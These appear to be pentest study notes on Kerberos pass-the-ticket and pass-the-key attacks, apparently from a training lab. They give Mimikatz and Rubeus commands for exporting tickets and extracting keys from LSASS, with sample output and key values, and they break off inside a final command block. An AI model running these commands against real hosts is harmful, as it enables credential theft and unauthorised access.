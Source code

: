 #windows/auth/pass-the-ticket
# #Kerberos
The Kerberos authentication system is ticket-based.
* `TGT - Ticket Granting Ticket` is the first ticket obtained on a Kerberos system.
* `TGS - Ticket Granting Service` allow services to verify user's identity.

If the user wants to connect to an MSSQL database, it will request a Ticket Granting Service (TGS) to The Key Distribution Center (KDC), presenting its Ticket Granting Ticket (TGT). Then it will give the TGS to the MSSQL database server for authentication
# Attack
Tickets are processed and stored by the [[LSASS]]
As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.
#### #Mimikatz - export tickets
```cmd
mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::tickets /export
mimikatz # exit

dir *.kirbi

-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi
```
The tickets that end with **$** correspond to the computer account, which needs a ticket to interact with the Active Directory. User tickets have the user's name, followed by an **@** that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi`
#### #Rubeus - export tickets
```cmd
Rubeus.exe dump /nowrap

<snip>
```
## Pass the Key or OverPass the Hash
The `Pass the Key` or `OverPass the Hash` approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`
#### Mimikatz - Extract Kerberos Keys
```cmd
mimikatz.exe

mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys

<snip>
```
**Now that we have access to the AES256_HMAC (b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60) and RC4_HMAC (3f74aa8f08f712f09cd5177b5c1ce50f) keys** 
#### Mimikatz - Pass the Key or OverPass the Hash
```cmd
mimikatz.exe

mimikatz # privilege::debug

```